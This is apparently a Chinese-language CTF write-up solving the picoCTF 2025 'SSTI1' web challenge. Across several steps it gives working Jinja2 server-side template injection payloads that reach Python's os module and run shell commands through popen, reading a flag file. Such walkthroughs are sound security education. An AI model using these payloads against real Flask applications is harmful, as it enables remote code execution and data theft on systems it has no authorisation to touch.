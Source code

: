 ##### tags:`picoCTF_2025`

# picoCTF Web : SSTI1

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/B1VAqCAske.png)
- ![image](https://hackmd.io/_uploads/BkPRifehyx.png)

## <span class="red">**解題過程**</span>

1. **這題我沒什麼想法，但是題目是 SSTI 1 ，所以應該是與 template injection 有關。首先輸入一些想要 announce 的內容試試看**
- ![image](https://hackmd.io/_uploads/HypPcMlhyl.png)
- ![image](https://hackmd.io/_uploads/ryCiqMg3yl.png)

&emsp;

2. **沒什麼特別的東西，回到主畫面後我才發現左下角有一行小字，內容是這個 announcement 只有我自己能夠接觸到 ，這<span class="red">++通常表示輸入內容可能會被模板引擎渲染並顯示在網頁上++</span>。所以我嘗試了 ```{{7*7}}``` 這段 payload ，如果回傳 49 代表模板是 Jinja2（Python Flask/Django）**

- ![image](https://hackmd.io/_uploads/Bk9Shfxhkl.png)
- ![image](https://hackmd.io/_uploads/Hyq96Ge2Jl.png)

&emsp;

3. **確實是回傳 49 ，那就不需要測試是不是其他模板了，直接用 
```{{config.__class__.__mro__[1].__subclasses__()}}``` 
這段 payload 查看有哪些可用的類別**

- ![image](https://hackmd.io/_uploads/SkDA0Mghkx.png)

&emsp;

4. **可以發現有以個 flask.Config 的類別，於是我先 ```{{config.items()}}``` 看看 config 有哪些 item ，看到裡面有 ```SECRET_KEY``` 跟 ```SESSION_COOKIE_NAME``` ，但是值分別是 None 和 session ，所以應該不是和 ```config.items()``` 有關**

- ![image](https://hackmd.io/_uploads/BJ-_17xhJx.png)
- ![image](https://hackmd.io/_uploads/Sk4NemxnJl.png)

&emsp;

5. **回到 subclass 的那一個層級，既然 flask 可以用 ，那就試試看 RCE 。使用 
```{{config.__class__.__init__.__globals__['os']}}``` 
這段 payload 看看能不能調用到 os module ，發現結果是可以的
(```config.__class__``` 就代表 ```flask.config.Config``` 這個類別)**

- ![image](https://hackmd.io/_uploads/Sywl77xhyx.png)

&emsp;

6. **那我就直接順著 
```{{config.__class__.__init__.__globals__['os']}}``` 
這段 payload 加上 system 指令來讀取系統資訊，像是
```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```**

- ![image](https://hackmd.io/_uploads/B1YxNQe31g.png)

&emsp;

7. **發現這個目錄底下有 flag 檔，那就更改一下 payload 變成 ```{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}``` 
以此讀取 flag 就成功了**

- ![image](https://hackmd.io/_uploads/S1siN7lhyx.png)

## <span class="red">**額外心得**</span>

1. **另外一種解法(從當前的 app 調用 ```__globals__``` 來使用)：
```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
其中 ```request.application``` 指的是<span class="blue">當前的 Flask 應用物件</span> ，等同於 ```Flask(__name__)```**